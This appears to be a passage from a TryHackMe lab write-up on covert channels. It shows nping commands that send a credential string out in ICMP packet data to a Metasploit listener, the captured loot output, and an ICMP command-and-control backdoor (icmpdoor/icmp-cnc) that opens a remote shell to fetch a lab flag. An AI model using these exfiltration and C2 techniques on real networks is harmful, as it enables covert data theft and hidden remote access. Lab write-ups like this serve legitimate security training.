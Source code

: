 ```bash

thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.116.172 --data-string "admin2:password2"

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2024-02-09 11:15 EET
SENT (0.0325s) ICMP [192.168.0.121 > 10.10.116.172 Echo request (type=8/code=0) id=19411 seq=1] IP [ttl=64 id=49666 iplen=44 ]
RCVD (0.0331s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=19411 seq=1] IP [ttl=63 id=61042 iplen=44 ]
RCVD (0.0714s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=19411 seq=1] IP [ttl=31 id=10678 iplen=30 ]
 
Max rtt: 38.849ms | Min rtt: 0.463ms | Avg rtt: 19.656ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds

thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.116.172 --data-string "EOF"

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2024-02-09 11:17 EET
SENT (0.0305s) ICMP [192.168.0.121 > 10.10.116.172 Echo request (type=8/code=0) id=1612 seq=1] IP [ttl=64 id=31163 iplen=31 ]
RCVD (0.0310s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=1612 seq=1] IP [ttl=63 id=7443 iplen=31 ]
RCVD (0.2140s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=1612 seq=1] IP [ttl=31 id=25204 iplen=36 ]
 
Max rtt: 183.505ms | Min rtt: 0.457ms | Avg rtt: 91.981ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
```

+ after ping complete on attackbox we get loot
```bash
[+] Beginning capture of "file.txt" data
[*] 30 bytes of data recevied in total
[+] End of File received. Saving "file.txt" to loot
[+] Incoming file "file.txt" saved to loot
[+] Loot filename: /root/.msf4/loot/20240209091722_default_10.10.116.172_icmp_exfil_622480.txt
```

+ Using C2 ICMP
```bash
thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133

thm@jump-box:~$ sudo icmp-cnc -i eth1 -d 192.168.0.121
[sudo] password for thm: 
shell: hostname
hostname
shell: icmp-host
getFlag
getFlag
shell: [+] Check the flag: /tmp/flag.txt


thm@icmp-host:~$ cat /tmp/flag.txt
THM{g0t-1cmp-p4k3t!}
```
